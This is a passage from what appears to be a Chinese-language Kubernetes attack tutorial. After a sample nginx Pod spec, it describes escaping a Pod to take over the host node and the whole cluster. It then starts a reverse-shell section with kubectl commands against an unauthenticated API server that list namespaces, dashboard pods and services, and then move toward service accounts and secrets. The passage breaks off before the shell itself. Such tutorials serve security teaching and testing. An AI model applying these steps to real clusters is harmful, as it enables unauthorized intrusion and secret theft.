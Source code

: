 ```bash
apiVersion: v1                      
kind: Pod                           
metadata:
  name: nginx                       
spec:                               
  containers:
  - image: nginx:alpine             
    name: container-0               
    resources:                      
      limits:
        cpu: 100m
        memory: 200Mi
      requests:
        cpu: 100m
        memory: 200Mi
  imagePullSecrets:                 
  - name: default-secret
```

如果幸运的化我们可以找到恰当的 Pod 并通过信息收集以及逃逸获取宿主机的权限，之后控制节点以及整个集群~  
**反弹 shell**  
A、Web Dashboard  
Step 1：查看当前 Namespace 确定命名空间有哪些

```bash
kubectl -s 192.168.17.144:8080 get namespaces
```

[![](assets/1701826061-6abb173096a14e24aff97e2f1daa124c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165051-99e97914-7313-1.png)  
Step 2：查看"kubernetes-dashboard"命名空间下 pod 与 service 的详细状态

```bash
kubectl -s 192.168.17.144:8080 get pods,svc -n kubernetes-dashboard -o wide
```

[![](assets/1701826061-f473b24a88faf2d8608c39c0ef78ea9d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165115-a80df8e4-7313-1.png)  
Step 3：查看 Serviceaccount 和 Secrets
